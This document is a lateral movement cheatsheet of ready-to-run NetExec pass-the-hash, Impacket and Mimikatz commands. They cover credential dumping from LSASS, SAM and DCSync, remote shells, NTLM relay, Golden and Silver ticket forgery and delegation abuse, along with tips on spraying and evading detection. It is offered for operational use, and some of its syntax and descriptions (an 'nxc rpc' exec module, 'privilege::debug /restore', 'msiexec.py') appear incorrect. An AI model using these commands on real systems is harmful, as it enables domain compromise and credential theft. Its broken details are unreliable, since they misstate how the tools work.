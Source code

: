 # Lateral Movement Cheatsheet

Compiled reference for using NetExec (nxc) Pass-the-Hash techniques and Impacket tooling during lateral movement operations. Replace placeholders (`<target>`, `<user>`, `<domain>`, `<LMHASH:NTHASH>`) with real values before running commands.

---

## NetExec Pass-the-Hash (PTH)

General tips:
- Provide hashes in `LMHASH:NTHASH` format; if LM hash is unknown, use `aad3b435b51404eeaad3b435b51404ee:<NTHASH>`.
- Append `--local-auth` when authenticating against local accounts instead of domain users.
- Add `--continue-on-success` to keep spraying additional targets even after a hit.
- Include `--verbose` for more detail during troubleshooting.

### SMB Module
- List shares with a hash:  
  `nxc smb <target_range> -u <user> -H <LMHASH:NTHASH> --shares`
- Execute a single command via SMB (default PsExec):  
  `nxc smb <target> -u <user> -H <LMHASH:NTHASH> -x "whoami"`
- Force a specific exec method (PsExec, WMExec, or Atexec):  
  `nxc smb <target> -u <user> -H <LMHASH:NTHASH> --exec-method wmiexec -x "ipconfig /all"`
- Dump SAM remotely with the hash:  
  `nxc smb <target> -u <user> -H <LMHASH:NTHASH> --sam`
- Trigger BloodHound collection with PTH:  
  `nxc smb <target_list.txt> -u <user> -H <LMHASH:NTHASH> -M bloodhound`

### WinRM Module
- Spawn a remote PowerShell command:  
  `nxc winrm <target> -u <user> -H <LMHASH:NTHASH> -x "hostname"`
- Launch an interactive shell (PowerShell remoting):  
  `nxc winrm <target> -u <user> -H <LMHASH:NTHASH> --shell`

### RDP Module
- Validate RDP access with a hash (no GUI, just auth check):  
  `nxc rdp <target> -u <user> -H <LMHASH:NTHASH>`

### WMI Module (via SMB)
- Run a command through WMI while authenticating over SMB with a hash:  
  `nxc smb <target> -u <user> -H <LMHASH:NTHASH> --wmi "powershell.exe -ExecutionPolicy Bypass -Command whoami"`

### RPC/DCOM Module
- Execute commands via DCOM using pass-the-hash:  
  `nxc rpc <target> -u <user> -H <LMHASH:NTHASH> -M exec -o COMMAND="whoami"`

### MSSQL Module
- Connect to SQL Server with pass-the-hash and enable xp_cmdshell:  
  `nxc mssql <target> -u <user> -H <LMHASH:NTHASH> -Q "EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE"`
- Execute OS command through xp_cmdshell:  
  `nxc mssql <target> -u <user> -H <LMHASH:NTHASH> -Q "EXEC xp_cmdshell 'whoami'"`  
  (requires xp_cmdshell already enabled)

---

## Impacket Lateral Movement Toolkit

All Impacket examples accept `-hashes <LMHASH:NTHASH>` for pass-the-hash; use `-dc-ip <domain_controller_ip>` when Kerberos lookups need help.

### Remote Command & Shell Execution
- PsExec-style service creation (semi-interactive shell):  
  `psexec.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH>`
- SMB exec with named pipes (fileless, command oriented):  
  `smbexec.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH>`
- WMI command execution (semi-interactive prompt):  
  `wmiexec.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH>`
- DCOM-based execution using MMC:  
  `dcomexec.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH>`
- Scheduled task (AT) execution:  
  `atexec.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH> "cmd.exe /c whoami"`
- Remote MSI deployment (drops payload MSI):  
  `msiexec.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH> <msi_path>`
- Interactive SMB client for manual operations:  
  `smbclient.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH>`
- Remote registry modification or query:  
  `reg.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH> query -key HKLM\\Software`

### Service & Task Abuse Helpers
- Query/modify Windows services over RPC:  
  `services.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH> list`
- Manage scheduled tasks:  
  `schtasks.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH> -create`

### SQL Server & LDAP Movement
- MSSQL client with integrated/NTLM auth:  
  `mssqlclient.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH> -windows-auth`
- LDAP queries with a hash (enumerate AD for escalation paths):  
  `ldapdomaindump.py <domain>/<user>@<dc_ip> -hashes <LMHASH:NTHASH>`
- Enumerate domain SIDs and users:  
  `lookupsid.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH>`
- Add new machine account using credentials/hashes:  
  `addcomputer.py <domain>/<user>@<dc_ip> -hashes <LMHASH:NTHASH> -computer-name <NEWCOMPUTER$> -computer-pass <Password>`

### Kerberos & Ticket Operations
- Use pass-the-hash with Kerberos (no password required):  
  `GetUserSPNs.py <domain>/<user> -hashes <LMHASH:NTHASH> -dc-ip <dc_ip>`
- Request TGT using NT hash (pass-the-key):  
  `getTGT.py <domain>/<user> -hashes <LMHASH:NTHASH>`
- Relay NTLM across protocols for lateral moves:  
  `ntlmrelayx.py -t smb://<target> -socks -debug`  
  (Feed hashes via coercion tools; combine with `--no-smb-server` for targeted relays.)
- Create forged Kerberos tickets for delegation abuse:  
  `ticketer.py -nthash <NTHASH> -domain <domain> -spn <service>/<target> <user>`
- Perform Resource-Based Constrained Delegation attacks:  
  `rbcd.py <domain>/<user>@<dc_ip> -hashes <LMHASH:NTHASH> -delegate-from <SOURCE$> -delegate-to <TARGET$> -sid <TARGET_SID>`

---

## Mimikatz Command Reference

Run Mimikatz from an elevated context (Administrator) and enable debug privilege before harvesting credentials.

### Setup & Privilege Escalation
- `privilege::debug` – Enable SeDebugPrivilege required for most credential extraction.
- `token::list` – Enumerate available tokens.
- `token::elevate` – Impersonate a higher-privileged token (e.g., SYSTEM).

### LSASS Credentials & Tickets
- `sekurlsa::logonpasswords` – Dump live credentials (usernames, NT hashes, clear-text when available).
- `sekurlsa::logonpasswords /inject` – Spawn an elevated process and dump from there.
- `sekurlsa::kerberos` – List Kerberos tickets from LSASS.
- `sekurlsa::tickets /export` – Export Kerberos tickets (TGT/TGS) to `.kirbi` files.
- `sekurlsa::ekeys` – Retrieve Kerberos encryption keys for sessions.

### SAM, LSA, and DC Sync
- `lsadump::sam` – Dump local SAM database (requires SYSTEM).
- `lsadump::lsa /patch` – Extract cached domain logons and secrets.
- `lsadump::dcsync /domain:<domain> /user:<user_or_krbtgt>` – Perform DCSync to pull password hashes without touching LSASS.
- `lsadump::dcsync /domain:<domain> /all /csv` – Dump entire domain credential set to CSV.

### Credentials Vaults & DPAPI
- `vault::list` – Enumerate Credential Manager entries.
- `vault::cred /patch` – Dump Credential Manager secrets.
- `dpapi::cred /in:<masterkey>` – Decrypt DPAPI-protected credentials when master key is known.
- `dpapi::cache /in:<blob>` – Decode cached domain credentials.

### Kerberos Ticket Forgery & Abuse
- `kerberos::list /export` – Enumerate and export Kerberos tickets.
- `kerberos::ptt <ticket.kirbi>` – Pass-the-ticket by injecting a `.kirbi`.
- `kerberos::golden /user:<user> /domain:<domain> /sid:<domain_sid> /krbtgt:<nt_hash>` – Craft a Golden Ticket.
- `kerberos::silver /service:<service>/<host> /target:<host> /domain:<domain> /sid:<domain_sid> /rc4:<service_hash>` – Craft a Silver Ticket.

### Certificates & Smartcards
- `crypto::certificates /export` – Export installed certificates (search for client auth certs).
- `crypto::capi` – Enumerate CAPI keys and providers.
- `crypto::cng` – List CNG keys.
- `token::elevate /domainadmin` – Leverage smartcard/PKI tokens when present.

### Cleanup
- `sekurlsa::minidump` – Switch LSASS target back to live memory after using minidumps.
- `privilege::debug /restore` – Drop debug privilege when done.
- `exit` – Close Mimikatz cleanly.

---

### Quick Reference Notes
- When only an NT hash is available, prepend the empty LM hash (`aad3b435b51404eeaad3b435b51404ee:`) to satisfy tools that expect both halves.
- Combine NetExec with `-o KERBEROAST` or Impacket’s `GetNPUsers.py` to harvest additional hashes before pivoting.
- For noisy environments, throttle NetExec with `--rate` and Impacket with `--port` adjustments to avoid detection.
